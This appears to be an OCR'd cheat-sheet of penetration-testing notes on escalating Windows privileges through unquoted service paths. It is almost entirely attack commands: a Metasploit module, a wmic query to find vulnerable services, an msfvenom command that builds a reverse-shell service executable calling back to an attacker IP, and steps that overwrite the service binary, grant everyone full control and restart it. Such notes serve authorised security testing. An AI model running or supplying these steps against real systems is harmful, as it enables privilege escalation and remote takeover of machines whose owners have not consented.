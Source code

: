 ### Meterpreter
	use exploit/windows/local/unquoted_service_path
### CMD
	wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """

Find a service with an unquoted service path

	sc qc [service]

Create a malicious service executable

	msfvenom -p windows/x64/shell_reverse_tcp LHOST=[Attacker IP] LPORT=[Attacker port] -f exe-service -o rev-svc.exe

Overwrite the service executable with the malicious version

	mv rev-svc.exe [vulnerable path].exe

	icacls [vulnerable path].exe /grant EVERYONE:F

	sc stop [Service]
	sc start [Service]
	